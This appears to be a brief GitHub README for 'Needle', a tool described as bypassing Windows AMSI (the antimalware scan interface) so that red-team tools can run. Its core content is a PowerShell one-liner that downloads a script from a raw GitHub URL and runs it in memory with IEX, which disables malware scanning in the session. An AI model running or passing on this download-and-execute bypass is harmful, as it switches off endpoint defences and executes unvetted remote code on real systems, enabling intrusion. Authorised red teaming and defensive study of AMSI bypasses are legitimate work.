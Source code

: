 Greetings
----------

a tool to bypass amsi and run your  favourite redteaming tools

![alt text](<2024-06-26 11_37_40-Windows Sandbox.png>)

after injection in session run with : Needle

bypass AMSI with oneliner :  

IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/ELMERIKH/Needle/main/Needle.ps1')

USE WITH CAUTION 
-----------
